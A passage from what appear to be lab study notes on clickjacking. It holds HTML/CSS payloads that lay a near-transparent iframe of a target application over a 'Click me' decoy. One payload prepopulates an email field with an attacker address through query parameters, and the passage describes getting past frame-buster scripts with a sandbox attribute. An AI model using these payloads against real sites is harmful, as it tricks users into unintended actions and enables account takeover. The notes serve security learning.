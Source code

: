 ```html
    }
</style>
<div>Click me</div>
<iframe src="$VULNERABLE-APPLICATION-URL"></iframe>
```

<br>

### Clickjacking - Prepopulate POST Form with Query Parameters

* It may be possible to prepopulate a form used in a POST request, by referencing those body parameters as query parameters in a GET request.
  
* Use a clickjacking payload, which will prepopulate a \<form\> parameter’s values, by using query parameters in a GET request.
  
* Include this targeted web page in an \<iframe\>.  Since the form will be prepopulated, we only need to induce the user into clicking on the button that will submit the POST request.
  
	* For Example: height: 700px ,  weight: 500px , opacity: 0.1 , top: 500px , left: 100px

 	* Also for the labs, the "Test me" text needed to be changed to "Click me".	 

```html
<style>
    iframe {
        position:relative;
        width: 500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 440px;
        left: 80px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="$VULNERABLE-APPLICATION-URL?email=hacker@attacker-website.com"></iframe>
```

<br>

### Prepopulate Form + Frame Buster Script Bypass

* It may be possible to prepopulate a form used in a POST request, by referencing those body parameters as query parameters in a GET request.
  
* Use a clickjacking payload, which will prepopulate a \<form\> parameter’s value, using a query parameter in a GET request.
  
* Include this targeted web page in an \<iframe\> with the attribute **‘sandbox=“allow-forms”’**, this will neutralize the frame buster script .  Since the form will be prepopulated, we only need to induce the user into clicking on the button that will submit the POST request.
  